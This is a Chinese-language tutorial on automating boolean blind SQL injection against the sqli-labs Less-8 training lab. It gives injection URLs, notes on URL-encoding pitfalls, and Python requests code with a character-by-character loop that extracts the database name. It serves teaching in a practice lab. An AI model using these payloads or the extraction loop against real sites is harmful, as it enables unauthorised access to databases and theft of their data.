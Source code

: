 **前提：** 本文中 Less-8 可用的 payload 为：

```shell
# 未被编码过
http://192.168.3.104/Less-8/?id=1' and ascii(substr(database(),1,1))=115 --+
# 编码过亦可成功
http://192.168.3.104/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115 --+
# 编码过但是无法成功，因为关键的最后一个`+`被编码了
http://192.168.3.104/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115 --%2B
```

## Python 版

在盲注脚本中 python 库使用的是 [requests](https://docs.python-requests.org/)。

### 坑点 1：不使用 params 的方式完成 URL 拼接

**坑点 1：** 在 Python 中，只能通过 URL 拼接的方式来完成 URL 的构造。
**不能用 [params 的方式](https://docs.python-requests.org/en/latest/user/quickstart/#passing-parameters-in-urls)来完成拼接。**

比如举个例子：

```python
import requests

if __name__ == '__main__':
    base_url = "http://192.168.3.104/Less-8/"
    params = {'id': "1' and ascii(substr(database(),1,1))=115 --+"}
    r = requests.get(base_url, params=params)
    print(r.url)

    payload = "?id=1' and ascii(substr(database(),1,1))=115 --+"
    r2 = requests.get(base_url + payload)
    print(r2.url)
```

此时输出为：
```shell
# 这个是无效的payload，因此不能通过params的方式拼接
http://192.168.3.104/Less-8/?id=1%27+and+ascii%28substr%28database%28%29%2C1%2C1%29%29%3D115+--%2B
# 拼接后是原始有效的
http://192.168.3.104/Less-8/?id=1'%20and%20ascii(substr(database(),1,1))=115%20--+
```

### 线性搜索与二分查找算法实现

先考虑最简单的情况，只去“猜”一个字符。

1. 常规的线性搜索过程如下：

```python
# 可显的ASCII字符为：32(<空格>)~126(~)
for i in range(32, 127):
    payload = f"1' and ascii(substr(database(),{j},{j}))={i} --+"
    r = requests.get(base_url + payload)
    if mark in r.text:
        db_name += chr(i)
        print('database:', db_name)
        # 注：使用break来提前退出
        break
```
